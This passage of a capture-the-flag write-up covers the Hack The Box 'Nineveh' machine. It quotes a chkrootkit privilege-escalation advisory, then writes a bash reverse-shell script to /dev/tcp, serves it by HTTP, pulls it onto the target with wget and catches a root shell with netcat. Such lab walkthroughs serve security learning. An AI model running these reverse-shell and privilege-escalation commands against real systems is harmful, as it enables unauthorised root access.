 ```bash

                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# cat 33899.txt   
...
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
...
```

OwO! So apparently we can gain privilege escalation by creating a file called `update` that contains malicious code! Lets try it~

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# mousepad update          
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# cat update              
#!/bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.14.29/9999 <&1'
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# python3 -m http.server 80                                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [28/Jun/2022 23:00:11] "GET /update HTTP/1.1" 200 -

- Netcat Listener -

www-data@nineveh:/tmp$ wget http://10.10.14.29/update
wget http://10.10.14.29/update
--2022-06-28 10:00:10--  http://10.10.14.29/update
Connecting to 10.10.14.29:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 68 [application/octet-stream]
Saving to: 'update'

     0K                                                       100% 9.94M=0s

2022-06-28 10:00:10 (9.94 MB/s) - 'update' saved [68/68]

www-data@nineveh:/tmp$ chmod +x update
chmod +x update

- Another Netcat Listener - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# nc -nlvp 9999    
listening on [any] 9999 ...
ls
whoami
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.43] 50164
bash: cannot set terminal process group (21122): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# whoami
root
root@nineveh:~# cd /home
```